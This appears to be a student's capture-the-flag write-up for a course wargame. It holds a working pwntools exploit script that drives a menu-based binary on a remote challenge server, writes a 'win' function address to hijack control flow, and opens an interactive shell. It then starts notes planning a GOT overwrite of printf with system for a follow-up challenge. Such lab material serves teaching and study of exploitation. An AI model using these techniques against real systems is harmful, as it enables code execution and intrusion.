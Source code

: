 ------------------ 
``` 
from pwn import *

# p = process("./ezpz1")

host = "comp6447.wtf"
port = 18373 
p = remote(host, port)

win = 0x0804950c

p.recvlines(18)
p.sendline(b'C')

p.recvlines(9)
p.sendline(b'C')

p.recvlines(9)
p.sendline(b'D')
p.sendline(b'0')

p.recvlines(8)
p.sendline(b'D')
p.sendline(b'1')

p.recvlines(8)
p.sendline(b'D')
p.sendline(b'0')

p.recvlines(8)
p.sendline(b'D')
p.sendline(b'0')

p.recvlines(8)
p.sendline(b'C')

p.recvlines(9)
p.sendline(b'C')

p.recvlines(9)
p.sendline(b'D')
p.sendline(b'3')

p.recvlines(8)
p.sendline(b'S')
p.sendline(b'2')
p.sendline(p32(win))

p.recvlines(8)
p.sendline(b'A')
p.sendline(b'3')

p.interactive()
```
ezpz2
===========================
General overview of problems faced 
------------------------------------- 
1. Had to study GOT overwrite.
2. The difference between this and the last challenge is that this time, there was no print question function. 
3. I reckoned the main idea is to utilise GOT overwrite approach. In this case, we would have to overwrite the GOT printf address with system address in libc.